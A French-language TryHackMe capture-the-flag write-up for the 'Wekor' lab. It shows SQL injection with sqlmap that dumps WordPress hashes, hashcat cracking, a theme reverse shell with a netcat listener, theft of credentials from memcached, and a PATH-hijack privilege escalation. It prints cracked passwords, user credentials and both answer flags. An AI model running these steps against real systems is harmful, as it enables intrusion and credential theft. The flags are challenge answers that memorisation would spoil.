




# Wekor #  

## Task 1 Introduction ##

## Task 2 Finishing Up ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.190.234 wekor.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A wekor.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-16 11:04 CEST
Nmap scan report for wekor.thm (10.10.190.234)
Host is up (0.034s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 95:c3:ce:af:07:fa:e2:8e:29:04:e4:cd:14:6a:21:b5 (RSA)
|   256 4d:99:b5:68:af:bb:4e:66:ce:72:70:e6:e3:f8:96:a4 (ECDSA)
|_  256 0d:e5:7d:e8:1a:12:c0:dd:b7:66:5e:98:34:55:59:f6 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 9 disallowed entries 
| /workshop/ /root/ /lol/ /agent/ /feed /crawler /boot 
|_/comingreallysoon /interesting
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=10/16%OT=22%CT=1%CU=43723%PV=Y%DS=2%DC=T%G=Y%TM=616A95
OS:FF%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST
OS:11NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)EC
OS:N(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT      ADDRESS
1   33.25 ms 10.9.0.1
2   33.47 ms wekor.thm (10.10.190.234)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 86.56 seconds
```

D'arpès nmap on a les services : 
Le service SSH sur le port 22.   
Le service HTTP sur le port 80.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://wekor.thm/
Welcome Internet User!
```

On a comme page principale un simple message de bienvenue.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://wekor.thm/robots.txt
User-agent: *
Disallow: /workshop/
Disallow: /root/
Disallow: /lol/
Disallow: /agent/
Disallow: /feed
Disallow: /crawler
Disallow: /boot
Disallow: /comingreallysoon
Disallow: /interesting
```

On a un fichier robots.txt qui contient beaucoup de répertoires.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://wekor.thm/comingreallysoon/
Welcome Dear Client!

We've setup our latest website on /it-next, Please go check it out!

If you have any comments or suggestions, please tweet them to @faketwitteraccount!

Thanks a lot !
```

Dans le lien comingreallyson on trouve un autre lien /it-next

   

Dans la page d'achat dans les coupons, il y a une vulnérabilité sql.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sqlmap --url "http://wekor.thm/it-next/it_cart.php" --dbs --forms
...
[12:44:31] [INFO] fetching database names
available databases [6]:
[*] coupons
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] wordpress
...
```

On regarde les bases de données on trouve wordpress.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sqlmap --url "http://wekor.thm/it-next/it_cart.php" -D wordpress --tables --forms
...
Database: wordpress
[12 tables]
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
...
tim@kali:~/Bureau/tryhackme/write-up$ sqlmap --url "http://wekor.thm/it-next/it_cart.php" -D wordpress -T wp_users --columns --forms
...
Table: wp_users
[10 columns]
+---------------------+---------------------+
| Column              | Type                |
+---------------------+---------------------+
| display_name        | varchar(250)        |
| ID                  | bigint(20) unsigned |
| user_activation_key | varchar(255)        |
| user_email          | varchar(100)        |
| user_login          | varchar(60)         |
| user_nicename       | varchar(50)         |
| user_pass           | varchar(255)        |
| user_registered     | datetime            |
| user_status         | int(11)             |
| user_url            | varchar(100)        |
+---------------------+---------------------+
...
tim@kali:~/Bureau/tryhackme/write-up$ sqlmap --url "http://wekor.thm/it-next/it_cart.php" -D wordpress -T wp_users -C user_login,user_pass --forms --dump
...
Table: wp_users
[4 entries]
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| admin      | $P$BoyfR2QzhNjRNmQZpva6TuuD0EE31B. |
| wp_jeffrey | $P$BU8QpWD.kHZv3Vd1r52ibmO913hmj10 |
| wp_yura    | $P$B6jSC3m7WdMlLi1/NDb3OFhqv536SV/ |
| wp_eagle   | $P$BpyTRbmvfcKyTrbDzaK1zSPgM7J6QY/ |
+------------+------------------------------------+
...
```

Avec sqlmap on extrait les hashs de utilisateurs.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo '$P$BoyfR2QzhNjRNmQZpva6TuuD0EE31B.' > hash
im@kali:~/Bureau/tryhackme/write-up$ echo '$P$BU8QpWD.kHZv3Vd1r52ibmO913hmj10' >> hash 
tim@kali:~/Bureau/tryhackme/write-up$ echo '$P$B6jSC3m7WdMlLi1/NDb3OFhqv536SV/' >> hash
tim@kali:~/Bureau/tryhackme/write-up$ echo '$P$BpyTRbmvfcKyTrbDzaK1zSPgM7J6QY/' >> hash

tim@kali:~/Bureau/tryhackme/write-up$ hashcat -h  | grep -F '$P$'
Wordlist         | $P$   | hashcat -a 0 -m 400 example400.hash example.dict

tim@kali:~/Bureau/tryhackme/write-up$ hashcat -m 400 -a 0 hash /usr/share/wordlists/rockyou.txt 
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5-7600K CPU @ 3.80GHz, 1422/1486 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 4 digests; 4 unique digests, 4 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 65 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$P$BU8QpWD.kHZv3Vd1r52ibmO913hmj10:rockyou       
$P$BpyTRbmvfcKyTrbDzaK1zSPgM7J6QY/:xxxxxx        
$P$B6jSC3m7WdMlLi1/NDb3OFhqv536SV/:soccer13    
```

On identifie les hashs on les casses.   
3 hashs sur 4 sont cassés.    

Avec gobuster on trouve pas de trace wordpress.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ffuf -H "Host: FUZZ.wekor.thm" -u http://wekor.thm -t 500 -fs 23 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://wekor.thm
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Header           : Host: FUZZ.wekor.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 500
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 23
________________________________________________

Site                    [Status: 200, Size: 143, Words: 27, Lines: 6]
site                    [Status: 200, Size: 143, Words: 27, Lines: 6]
SITE                    [Status: 200, Size: 143, Words: 27, Lines: 6]
```

On fait un fuzzing sur les sous-domaines, on trouve site.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.190.234 site.wekor.thm' >> /etc/hosts" 
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u site.wekor.thm -w /usr/share/dirb/wordlists/common.txt -q
/.hta                 (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/index.html           (Status: 200) [Size: 143]
/server-status        (Status: 403) [Size: 279]
/wordpress            (Status: 301) [Size: 320] [--> http://site.wekor.thm/wordpress/]

tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u site.wekor.thm/wordpress/ -w /usr/share/dirb/wordlists/common.txt -q
/.hta                 (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/index.php            (Status: 301) [Size: 0] [--> http://site.wekor.thm/wordpress/]
/wp-admin             (Status: 301) [Size: 329] [--> http://site.wekor.thm/wordpress/wp-admin/]
/wp-content           (Status: 301) [Size: 331] [--> http://site.wekor.thm/wordpress/wp-content/]
/wp-includes          (Status: 301) [Size: 332] [--> http://site.wekor.thm/wordpress/wp-includes/]
/xmlrpc.php           (Status: 405) [Size: 42]            
```

Sur le nouveau sous domaine on trouve un répertoire wordpress/wp-admin.   



On se connecte sur le site avec wp_yura qui est admin.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

On écoute le port 1234 pour avoir un shell.   



On inclut un reverse shell dans le theme.  



On exécute le reverse shell.   

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@osboxes:/home$ ls
ls
Orka  lost+found
www-data@osboxes:/home$ cd Orka	
cd Orka
bash: cd: Orka: Permission denied
```

On essai d'aller dans l'utilisateur Orka mais on a pas les droits.   

```bash
www-data@osboxes:/$ ss -tnl 
ss -tnl
State      Recv-Q Send-Q Local Address:Port               Peer Address:Port              
LISTEN     0      128          *:22                       *:*                  
LISTEN     0      5      127.0.0.1:631                      *:*                  
LISTEN     0      10     127.0.0.1:3010                     *:*                  
LISTEN     0      80     127.0.0.1:3306                     *:*                  
LISTEN     0      128    127.0.0.1:11211                    *:*                  
LISTEN     0      128         :::22                      :::*                  
LISTEN     0      5          ::1:631                     :::*                  
LISTEN     0      128         :::80                      :::*        
```

On voit que sur le local host il y a plusieurs ports en écoute.    

```bash
www-data@osboxes:/$ telnet 127.0.0.1 11211
telnet 127.0.0.1 11211
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.

```

Le port 11211 est un service memcached.  

```bash
stats cachedump 1 0
ITEM id [4 b; 1634374984 s]
ITEM email [14 b; 1634374984 s]
ITEM salary [8 b; 1634374984 s]
ITEM password [15 b; 1634374984 s]
ITEM username [4 b; 1634374984 s]
END
get username
get username
VALUE username 0 4
Orka
END
get password
get password
VALUE password 0 15
OrkAiSC00L24/7$
END
```

On récupère les identifiants qui sont : Orka:OrkAiSC00L24/7$  

```bash
su Orka
Password: OrkAiSC00L24/7$
Orka@osboxes:/$ cd /home/Orka
cd /home/Orka
Orka@osboxes:~$ cat user.txt
cat user.txt
1a26a6d51c0172400add0e297608dec6
```

**What is the user flag?**

On se connecte sous l'utilisateur Orka.   
On lit le fichier user.txt dans le répertoire /home/Orka/   
Le flag est : 1a26a6d51c0172400add0e297608dec6   

**What is the root flag?**  

```bash
Orka@osboxes:~$ sudo -l
sudo -l
[sudo] password for Orka: OrkAiSC00L24/7$

Matching Defaults entries for Orka on osboxes:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User Orka may run the following commands on osboxes:
    (root) /home/Orka/Desktop/bitcoin
```

Dans la configuration sudo on peut exécuter /home/Orka/Desktop/bitcoin avec les droits administrateurs.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lp 3333 > bitcoin
-------------
Orka@osboxes:~/Desktop$ nc 10.9.228.66 3333 < bitcoin
```

On transfer le fichier bitcoin pour analyse.   


On analyse le fichier on trouve que le mot de passe est password.    
Le fichier transfer.py est exécuté.   

```bash
Orka@osboxes:~/Desktop$ ls -al
ls -al
total 20
drwxrwxr-x  2 root root 4096 Jan 23  2021 .
drwxr-xr-- 18 Orka Orka 4096 Jan 26  2021 ..
-rwxr-xr-x  1 root root 7696 Jan 23  2021 bitcoin
-rwxr--r--  1 root root  588 Jan 23  2021 transfer.py
```

J'ai pas la permision d'écrire dans le fichier.  

```bash
Orka@osboxes:/$ cd tmp
cd tmp
Orka@osboxes:/tmp$ 
Orka@osboxes:/tmp$ echo '/bin/bash' > python                                  
echo '/bin/bash' > python

Orka@osboxes:/tmp$ chmod +x python
chmod +x python

export PATH=/tmp/:$PATH

sudo /home/Orka/Desktop/bitcoin
[sudo] password for Orka: OrkAiSC00L24/7$

Enter the password : password
password
Access Granted...
			User Manual:			
Maximum Amount Of BitCoins Possible To Transfer at a time : 9 
Amounts with more than one number will be stripped off! 
And Lastly, be careful, everything is logged :) 
Amount Of BitCoins : 


 Sorry, This is not a valid amount! 
Orka@osboxes:/tmp$ sudo /home/Orka/Desktop/bitcoin
sudo /home/Orka/Desktop/bitcoin
Enter the password : password
password
Access Granted...
1			User Manual:			
Maximum Amount Of BitCoins Possible To Transfer at a time : 9 
Amounts with more than one number will be stripped off! 
And Lastly, be careful, everything is logged :) 
Amount Of BitCoins : 1
11
Saving 1 BitCoin(s) For Later Use 
Do you want to make a transfer? Y/N : N
N
Quitting...

```

On fait croire que le vrai fichier python est dans tmp, mais cette méthode ne fonctionne pas.  

```bash
cp python /usr/sbin

Orka@osboxes:/tmp$ sudo /home/Orka/Desktop/bitcoin
sudo /home/Orka/Desktop/bitcoin
Enter the password : password
password
Access Granted...
			User Manual:			
Maximum Amount Of BitCoins Possible To Transfer at a time : 9 
Amounts with more than one number will be stripped off! 
And Lastly, be careful, everything is logged :) 
Amount Of BitCoins : 1
1
root@osboxes:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root)
root@osboxes:/tmp# cat /root/root.txt

cat /root/root.txt

f4e788f87cc3afaecbaf0f0fe9ae6ad7
```

Le répertoire /usr/sbin est accessible en écriture on copie notre faux python.   
On exécute bitcoin avec les droits root.   
On obtient un shell root.   
On lit le fichier root.txt qui est dans root.   
Le flag est : f4e788f87cc3afaecbaf0f0fe9ae6ad7   

